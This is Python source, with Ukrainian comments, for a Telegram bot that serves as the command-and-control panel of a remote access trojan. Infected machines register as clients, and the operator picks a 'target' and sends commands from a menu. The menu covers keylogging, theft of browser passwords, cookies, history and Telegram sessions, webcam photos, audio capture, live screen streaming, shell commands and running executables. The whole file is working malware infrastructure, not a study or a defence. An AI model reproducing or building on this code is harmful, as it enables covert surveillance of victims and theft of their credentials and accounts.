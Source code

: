 # bot.py

# bot_server.py

import logging
from telegram import InlineKeyboardButton, InlineKeyboardMarkup, Update
from telegram.ext import (
    Updater, CommandHandler, CallbackQueryHandler,
    MessageHandler, Filters, CallbackContext
)

# ================== Налаштування ==================
BOT_TOKEN = "tut bot token"

# Шаблон меню функцій
FUNCTION_MENU = [
    ["sysinfo",      "Системна інфо"],
    ["ls",           "Файловий менеджер"],
    ["ps",           "Список процесів"],
    ["kill",         "Завершити процес"],
    ["shell",        "Shell-команди"],
    ["screenshot",   "Скріншот"],
    ["keylog",       "Кейлогер"],
    ["audio",        "Аудіо"],
    ["photo",        "Фото з камери"],
    ["livescreen",   "Live-стрім екрану"],
    ["clip",         "Буфер обміну"],
    ["update",       "Авто-оновлення"],
    ["wifi",         "Wi-Fi сканер"],
    ["run",          "Запуск .exe"],
    ["lock",         "Блок/розбл. екран"],
    ["shutdown",     "Вимкнути ПК"],
    ["reboot",       "Перезавантажити"],
    ["pw",           "Паролі браузера"],
    ["cookies",      "Куки браузера"],
    ["history",      "Історія браузера"],
    ["tgsession",    "Telegram session"],
    ["getlink",      "Генер. лінк"],
]

# Клієнти: client_id → chat_id
clients = {}
current_client = None

# ================== Обробка реєстрації ==================
def handle_register(update: Update, ctx: CallbackContext):
    text = update.message.text.strip()
    if text.startswith("/register"):
        # Повідомлення від клієнта: "/register CLIENT_ID"
        parts = text.split(" ", 1)
        if len(parts) == 2:
            client_id = parts[1]
            clients[client_id] = update.effective_chat.id
            update.message.reply_text(f"✅ Зареєстровано клієнта `{client_id}`", parse_mode="Markdown")

# ================== Команда /clients ==================
def cmd_clients(update: Update, ctx: CallbackContext):
    if not clients:
        update.message.reply_text("⚠️ Жодного клієнта не зареєстровано.")
        return
    keyboard = [
        [InlineKeyboardButton(cid, callback_data=f"select:{cid}")]
        for cid in clients
    ]
    update.message.reply_text("🔍 Обріть клієнта:", reply_markup=InlineKeyboardMarkup(keyboard))

# ================== Вибір клієнта ==================
def select_client(cb: Update, ctx: CallbackContext):
    global current_client
    data = cb.callback_query.data  # "select:CLIENT_ID"
    client_id = data.split(":",1)[1]
    current_client = client_id
    # Створюємо меню функцій
    kb = []
    row = []
    for cmd, label in FUNCTION_MENU:
        row.append(InlineKeyboardButton(label, callback_data=f"cmd:{cmd}"))
        if len(row) == 2:
            kb.append(row)
            row = []
    if row:
        kb.append(row)
    # Додаємо кнопку Назад
    kb.append([InlineKeyboardButton("🔙 Назад", callback_data="back")])
    cb.callback_query.edit_message_text(
        f"👤 Ціль: `{client_id}`\nОбріть дію:", parse_mode="Markdown",
        reply_markup=InlineKeyboardMarkup(kb)
    )

# ================== Обробка обраної функції ==================
def handle_command(cb: Update, ctx: CallbackContext):
    global current_client
    data = cb.callback_query.data  # "cmd:sysinfo" або "back"
    if data == "back":
        # Повернення до списку клієнтів
        cb.callback_query.edit_message_text("🔍 Обріть клієнта:")
        return cmd_clients(cb.callback_query, ctx)
    _, cmd = data.split(":",1)
    chat_id = clients.get(current_client)
    if not chat_id:
        cb.callback_query.answer("❌ Клієнт офлайн", show_alert=True)
    else:
        # Відправляємо текстову команду клієнту
        ctx.bot.send_message(chat_id, f"/{cmd}")
        cb.callback_query.answer(f"▶️ Відправлено /{cmd} клієнту")

# ================== Основна функція ==================
def main():
    logging.basicConfig(level=logging.INFO)
    updater = Updater(BOT_TOKEN, use_context=True)
    dp = updater.dispatcher

    # Обробники
    dp.add_handler(MessageHandler(Filters.text & Filters.private, handle_register))
    dp.add_handler(CommandHandler("clients", cmd_clients))
    dp.add_handler(CallbackQueryHandler(select_client, pattern="^select:"))
    dp.add_handler(CallbackQueryHandler(handle_command, pattern="^cmd:"))
    dp.add_handler(CallbackQueryHandler(handle_command, pattern="^back$"))

    updater.start_polling()
    updater.idle()

if __name__ == "__main__":
    main()
